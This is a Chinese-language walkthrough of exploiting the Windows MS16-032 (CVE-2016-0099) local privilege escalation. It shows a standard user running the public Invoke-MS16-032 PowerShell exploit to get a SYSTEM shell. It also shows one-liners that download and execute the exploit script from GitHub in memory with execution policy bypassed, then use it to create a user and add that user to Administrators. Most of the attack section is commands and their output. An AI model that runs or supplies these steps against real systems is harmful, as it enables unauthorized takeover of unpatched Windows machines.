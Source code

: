 # （CVE-2016-0099）【MS16-32】 windows 本地提权漏洞

# 介绍

漏洞类型：特权提升

Microsoft 安全公告：https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2016/ms16-032

exploit-db的详情：https://www.exploit-db.com/exploits/39574/

利用时需要满足的要求

> ①系统需要拥有至少2个的CPU核心
>
> ②Power shell v2.0以及更高的版本

影响的Windwos版本

> Windows Vista、Windows 7、Windows 2008 Server、Windows 2012 Server、Windows 8.1、Windows 10

## 漏洞利用

> 脚本地址：[1_Invoke-MS16-032.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1)



测试一：普通用户登录下，获取管理员cmd创建文件的方法有多种，这里演示两种：

①创建文件`1_Invoke-MS16-032.ps1`并写入内容；

```
E:\MS16-032>type nul > 1_Invoke-MS16-032.ps1

E:\MS16-032>notepad 1_Invoke-MS16-032.ps1    #写入内容
```

文件下载好之后，先展示一下当前用户，以及属组

```
E:\MS16-032>whoami
win...\test

E:\MS16-032>net user  test
用户名                 test
...
可允许的登录小时数     All

本地组成员             *Users
全局组成员             *None
命令成功完成。
```

无权的一个用户，现在开始执行脚本

```
E:\MS16-032>powershell -exec bypass
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

PS E:\MS16-032> . .\1_Invoke-MS16-032.ps1

PS E:\MS16-032> Invoke-MS16-032
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS E:\MS16-032> 
```





![image-20201103195057316](resource/%EF%BC%88CVE-2016-0099%EF%BC%89%E3%80%90MS16-32%E3%80%91%20windows%20%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/image-20201103195057316.png)

前面的步骤时进入powershell在执行命令，但其实可以加一个`-c`参数，后面可以直接接命令，分号分隔开，然后就会自动执行，不用进入powershell。

```
E:\MS16-032>powershell -exec bypass -c ". .\1_Invoke-MS16-032.ps1;Invoke-MS16-032"
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>
```

脚本地址：[2_Invoke-MS16-032.ps1](https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1)



测试二：普通用户登录下，创建其他用户，并加入`administrators`组Ps：相对于测试一的脚本，该脚本进行了简单改变，可以执行任意程序，并可以添加参数执行（全程无弹框）。`-Application`参数可以执行任意程序

```
E:\MS16-032>whoami
win...\test

E:\MS16-032>net user test_test /add
发生系统错误 5。

拒绝访问。
```

```
E:\MS16-032>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user test_test test_test /add'"
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handles..
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>net user
---------------------------------------------------------------------
Administrator            Guest                    HSW
test                     test_test
命令成功完成。


E:\MS16-032>net user test_test
用户名                 test_test
...
本地组成员             *Users
全局组成员             *None
命令成功完成。
```

可以看到`test_test`用户添加完成，但是只属于`Users组`，现在将其加入`Administrators组`，先查看一下组和权限

```
E:\MS16-032>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup Administrators test_test /add'"
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handles..
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>net localgroup Administrators
别名     Administrators
注释     管理员对计算机/域有不受限制的完全访问权

成员

---------------------------------------------
Administrator
test_test
命令成功完成。


E:\MS16-032>net user test_test
用户名                 test_test
...
本地组成员             *Administrators       *Users
全局组成员             *None
命令成功完成。
```

